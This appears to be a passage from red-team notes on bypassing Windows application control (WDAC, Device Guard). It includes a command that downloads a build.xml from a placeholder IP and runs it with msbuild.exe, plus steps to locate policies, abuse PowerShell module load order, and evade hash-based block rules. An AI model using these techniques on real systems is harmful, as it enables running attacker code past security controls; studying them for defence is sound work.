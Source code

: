 To execute, curl a "run.txt" such that:

```
iwr http://<ip>/build.xml -OutFile c:\programdata\build.xml
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe c:\programdata\build.xml
```

See C# Section for how to encrypt for this variant.

### WDAC

Check whether WDAC is enabled with `Get-ComputerInfo` (last 2 lines, "DeviceGuardCodeIntegrity"). The policies lives in C:\Windows\System32\CodeIntegrity or in the EFI System Partition, it has however no mounted drive by default:

```
Get-Partition
Get-Partition -PartitionNumber 2 | Set-Partition -NewDriverLetter X
Get-PSDrive
ls X:\EFI\Microsoft\Boot\*p7b
```

#### Convert via [WDACTools](https://github.com/mattifestation/WDACTools)

```
ConvertTo-WDACCodeIntegrityPolicy -BinaryFilePath binpath - XmlFilePath xmlpath
```

Then Check if there are some different to the recommendation: [https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules) .

[LOLBas ](https://lolbas-project.github.io/)has a lot of AWL bypasses, some of these work for code integrity too.

Powershell Scripts are often "Catalog" signed (C:\windows\system32\catroot), a signed list of hashes. &#x20;

Block rules for scripts are not very robust, small changes will change the hash and let the scripts run.

When we find a binary that uses powershell (and is allowed) we might be able to abuse the powershell module load order and place a malicious powershell file that gets auto loaded.

#### Bypasses

* [Pubprn.vbs](https://github.com/api0cradle/LOLBAS/blob/master/OSScripts/Pubprn.md)&#x20;
  * This needs a vulnerable version, Microsoft blocked a lot of versions. What we can do however is to use an old version and remove a newline in the signature if its embedded - this will stay valid signed but the hash changed, bypassing a hash based block

#### Resources&#x20;

* [https://www.youtube.com/watch?v=GU5OS7UN8nY](https://www.youtube.com/watch?v=GU5OS7UN8nY)

### Device Guard

* [http://www.exploit-monday.com/2017/07/bypassing-device-guard-with-dotnet-methods.html](http://www.exploit-monday.com/2017/07/bypassing-device-guard-with-dotnet-methods.html) (Mitigated with WDAC Policy "Enabled: Developer Mode Dynamic Trust")
